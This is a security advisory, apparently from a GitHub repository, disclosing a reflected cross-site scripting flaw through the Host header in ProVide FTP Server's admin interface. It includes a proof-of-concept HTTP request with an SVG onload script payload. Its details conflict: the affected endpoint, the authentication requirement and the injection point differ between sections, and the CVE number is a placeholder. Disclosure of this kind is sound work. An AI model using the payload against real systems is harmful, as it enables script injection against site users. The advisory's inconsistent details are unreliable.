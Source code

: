 # Waitedit - Reflected Cross-Site-Scripting via Host Header manipulation

## Summary

The application does not consistently validate client side input, and as a result of this it was identified that the web application was vulnerable to Reflected Cross-Site Scripting.

In the context of this vulnerability, a logged in attacker may execute active content in the context of other logged in users, injecting JavaScript or other active contect in the display name, and sharing a public accessible link.

## VulDB-Like Summary

A vulnerability has been found in the Admin Web Interface of ProVide FTP Server (formerly zFTP) for Windows up to v13.1. It has been declared as problematic. Affected by this vulnerability is an unknown part of the file /ajax/collaborate. The manipulation of the **Host header** with the input value `"/a><svg/onload=alert(1)><a href="` leads to a cross site scripting vulnerability. The CWE definition for the vulnerability is CWE-79. As an impact it is known to affect integrity. An attacker might be able to inject arbitrary html and script code into the web site. This would alter the appearance and would make it possible to initiate further attacks against site visitors.

The weakness was disclosed 04/06/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). It is possible to read the advisory at github.com. This vulnerability is known as CVE-2020-XXXX. The attack can be launched remotely. The exploitation doesn't need any form of authentication. Technical details of the vulnerability are known, but there is no available exploit.

## Proof-of-Concept

**Sample affected URL:**

* https://provide.ftp.local:8443/dkb4QRBT4hG4EGMu/ajax/waitedit

**Sample request:**

```
POST /n8nTTXWuZgi9gDyy/ajax/waitedit HTTP/1.1
Host: "/a><svg/onload=alert(1)><a href="
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded;charset=utf-8
X-Requested-With: XMLHttpRequest
Content-Length: 115
Origin: https://provide.ftp.local
Connection: close
Referer: https://provide.ftp.local/
Cookie: ProVideSessionID=u1aSUSPhZUEgmuu

url=https%3A%2F%2Fprovide.ftp.local%2Fn8nTTXWuZgi9gDyy%2F4Z93Q76H%2Ftestfiletxt
```

## Remediation

No official fix is available for this issue.

## References

* [https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
* [https://www.google.com/intl/en/about/appsecurity/learning/xss/](https://www.google.com/intl/en/about/appsecurity/learning/xss/) 
* [https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) 
